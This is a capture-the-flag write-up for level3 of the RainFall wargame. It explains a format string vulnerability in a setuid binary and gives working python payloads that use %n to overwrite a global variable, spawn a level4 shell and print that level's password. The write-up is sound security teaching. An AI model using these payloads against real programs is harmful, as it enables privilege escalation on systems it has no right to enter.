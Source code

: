 level3
======

*	We spawn with a [level3](src/level3) executable
	```console
	level3@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
	level3@RainFall:~$ ./level3 
	█
	```
*	Let's take a look at the code in gdb
	```gdb
	(gdb) info functions
	All defined functions:
	...
	0x080484a4  v
	0x0804851a  main
	...
	```
*	We have two functions `v` and `main`
	-	`main` just calls `v`
	-	`v` does many things :
		-	declares a var of `520` char
		-	`fgets()` on it with a max size of 512 (fgets is overflow protected because of bound checking)
		-	`printf` the variable
		-	check if the global var `m` is equal to `0x40`
			-	if so execute a shell
*	Important thing here is also that `printf()` is vulnerable to [format string exploit](https://owasp.org/www-community/attacks/Format_string_attack) !
	```console
	level3@RainFall:~$ ./level3 
	%x %x %x
	200 b7fd1ac0 b7ff37d0
	level3@RainFall:~$ ./level3 
	aaaa %x %x %x %x %x %x
	aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
	Here we can see our string `aaaa` at fourth position `61616161`
*	So we want to make the condition succeed, we need to make sure the content of m is of 64 bytes
*	We will be using the `%n` modifier which we can specify the address like so `%[address]$n`
*	Now let's not forget the little endian rule with the address of `m` and try to replace `aaaa` with it
	```console
	level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "%x "*4' > /tmp/test
	level3@RainFall:~$ cat /tmp/test | ./level3
	� 200 b7fd1ac0 b7ff37d0 804988c
	```
	Ok it worked
*	We now need to calculate our format string :
	-	address of m -> 4 bytes
	-	random data -> 60 bytes
	not too hard here
*	We now got everything we need, let's and this level :
	```console
	level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "a" * 60 + "%4$n"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test - | ./level3
	�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	Wait what?!
	whoami
	level4
	cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	```
*	There are two other ways to do this :
	-	Use the bytes printed with the `%x` to add bytes to the count without random char
		```console
		level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "a" * 41 + "%x%x%x%n"' > /tmp/test
		```
		Those flags are 19 bytes heavy when we print them `(200 b7fd1ac0 b7ff37d0) -> 19` so we end up adding only 41 bytes.
	-	And the last is to use the `%d` specifier, from what I understood, it shares the same `count` as the `%n` specifier and so it "prints" the char needed to obtain the number you want without really printing it (avoiding space limitations and using my brain to count the bytes)
		```console
		level3@RainFall:~$ python -c 'print "\x08\x04\x98\x8c"[::-1] + "%60d%4$n"' > /tmp/test
		```